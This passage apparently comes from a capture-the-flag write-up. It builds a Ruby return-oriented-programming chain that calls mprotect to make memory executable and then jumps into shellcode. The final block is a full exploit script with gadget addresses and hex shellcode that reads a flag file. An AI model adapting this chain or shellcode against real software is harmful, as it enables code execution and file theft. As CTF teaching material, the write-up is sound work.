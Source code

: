Using these three values, I could set up the call to `mprotect`:

```ruby
stack += [
  POP_RDI_RET,
  WRITEABLE_MEMORY,

  POP_RSI_RET,
  SHELLCODE.length,

  POP_RDX_POP_RBX_RET,
  PROTECT_READ_WRITE_EXEC,
  INDIFFERENT_VALUE, # Goes into ebx, don't care

  MPROTECT, # memprotect(WRITABLE_MEMORY, (length), +rwx)
].pack('q*')
```

Then finally, at the end, returning to the start of the shellcode that we just made executable:

```ruby
stack += [
  # Return into the shellcode
  WRITEABLE_MEMORY,
].pack('q*')
```

## The exploit

Putting it all together, along with the shellcode from last question (possibly with the length changed) you get the exploit:

```ruby
# Encoding: ascii-8bit

require './libronsolve'
require 'base64'
require 'httparty'

# Gadgets
POP_RDI_RET = 0x401D90 # 5fc3
POP_RSI_RET = 0x40F782 # 5ec3
POP_RDX_POP_RBX_RET = 0x4696D7 # 5a5bc3 - best I could find
POP_RAX_POP_RDX_POP_RBX_RET = 0x4696D6 # 585a5bc3
MOV_RAX_PTR_EDX_RET = 0x416E10 # 488902

# Random address in the data segment that we will write our shellcode to
# (this can be basically anywhere)
WRITEABLE_MEMORY = 0x4A6000

# Libc functions statically linked in
MPROTECT = 0x439450

# Debug breakpoint
DEBUG = 0x461F5F

# Argument to mprotect()
PROTECT_READ_WRITE_EXEC = 7

# Random value for padding
INDIFFERENT_VALUE = 0x5a5a5a5a5a5a5a5a

# Super inefficient "read file / write stdout" shellcode
SHELLCODE = ["b802000000e8130000002f686f6d652f6374662f666c61672e747874005fbe00000000ba000000000f055750b8000000005f5eba240000000f05b801000000bf01000000ba240000000f05b83c000000bf000000000f05cccccccccccccccc"].pack('H*')
```